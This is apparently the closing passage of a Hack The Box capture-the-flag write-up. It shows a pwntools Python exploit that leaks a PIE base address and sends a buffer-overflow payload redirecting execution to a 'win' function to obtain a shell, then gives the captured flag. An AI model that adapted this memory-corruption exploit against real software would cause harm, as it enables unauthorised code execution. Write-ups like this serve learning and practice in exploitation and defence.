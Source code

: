 ```py
target.recvuntil(b"[Specialty]: ")
pie_leak = target.recvline()[16:-1] + b"\x00" * 2
offset = 6992
base_leak = u64(pie_leak) - offset
win = base_leak + 0x1343

print(f"BASE: {hex(base_leak)}, WIN: {hex(win)}")

# Review
target.sendline(b"4")
# Specialty
payload = b"d" * 24 + p32(0x01) + p32(0x01) + b"\x3f" + p64(win)

# I need to pivot 64 bytes upwards
target.sendline(payload)

target.interactive()
```

I had to run the exploit about ~30 times to get a shell while writing this. Doesn't take long if you have quick hands to stop it as soon as you see `Got EOF while reading in interactive`, lol.

### Flag

`HTB{4_l1ttl3_bf_41nt_b4d_SOME_UNIQUE_ID}`

I have no idea what `bf` means here? brainfuck?

